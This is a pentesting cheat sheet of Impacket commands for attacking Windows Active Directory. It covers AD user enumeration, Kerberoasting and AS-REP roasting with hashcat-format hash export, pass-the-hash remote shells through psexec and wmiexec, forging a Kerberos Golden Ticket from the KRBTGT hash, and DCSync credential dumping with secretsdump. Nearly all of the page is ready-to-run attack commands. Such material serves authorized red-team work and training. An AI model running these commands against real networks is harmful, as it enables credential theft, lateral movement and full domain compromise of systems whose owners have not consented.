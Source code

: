 # Impacket

## Enumeration

{% hint style="info" %}
**-format hashcat to export a formated hash**
{% endhint %}

### **Get AD users**

```csharp
python3 GetADUsers.py -all -k -no-pass -dc-ip <DC_IP> Domain.local/Administrator
```

### Get SPN users

#### with a ticket

```csharp
./GetUserSPNs.py -k -no-pass -dc-ip <DC_IP> Domain.local/Administrator
```

#### with a password

```csharp
./GetUserSPNs.py -request -dc-ip <DC_IP> Domain.local/Administrator
```

### Account witch doesn't require Kerberos Authentication

```csharp
./GetNPUsers.py -dc-ip 10.110.0.222 -request 'crook.badcorp.local/' -format hashcat
```

## File server

```csharp
sudo ./smbserver.py Test /tmp -smb2support -user polo -password test123 
```

## Psexec

```csharp
./psexec.py -hashes <ntlm hash:ntlm hash> Administrator@<HOSTNAME>

# or without password (kerberos)

./psexec.py CROOK.BADCORP.LOCAL/Administrator@DC103 -k -no-pass
```

## Wmiexec

{% hint style="warning" %}
As opposite to psexec which provides NT LOCAL/System shell, wmiexec allows to keep the requested user context, i.e. Domain\Administrator will get an Domain\Administrator shell.
{% endhint %}

### login / password

```csharp
proxychains ./wmiexec.py  Domain/user:Password@1.2.3.4
```

### kerberos ticket

{% hint style="info" %}
Kerberos ticket must be injected first
{% endhint %}

```csharp
./wmiexec.py CROOK.BADCORP.LOCAL/Administrator@DC103 -k -no-pass
```

## Kerberos Golden Ticket

### Request a TGT

```csharp
./ticketer.py -nthash <KRBTGT NTLM HASH> -domain-sid <DOMAIN SID> -domain <MYDOMAIN.LOCAL> Administrator
```

### Import the TGT

```csharp
export KRB5CCNAME=krb5cc_91801115_mine
```

### Connect using the ticket

```csharp
./psexec.py CROOK.BADCORP.LOCAL/Administrator@10.110.0.222 -k -no-pass
```

### DSYNC

```csharp
./secretsdump.py crook.badcorp.local/User:Password@10.110.0.222
```

## MSSQLclient.py

```csharp
./mssqlclient.py user@server -windows-auth
```

